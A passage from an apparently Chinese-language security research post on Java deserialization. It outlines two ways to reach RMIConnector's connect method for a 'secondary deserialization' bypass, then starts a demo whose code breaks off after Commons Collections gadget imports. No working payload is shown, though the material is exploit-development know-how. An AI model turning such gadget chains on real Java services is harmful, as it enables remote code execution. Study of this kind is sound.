 [![](assets/1709112106-a37656f3ae5a29ca38cf16e5eb0088d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195941-b097b5a2-d567-1.png)

那么现在就 2 个思路

1.  谁的方法调用了`connect`​方法并且传入的值可控，然后一直往上跟 readobject 或者 tostring 或者 getter 方法
2.  谁的反射可控，直接进行反射调用

那么现在先写一个本地的直接反射调用的 demo 来触发二次反序列化

```plain
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {


```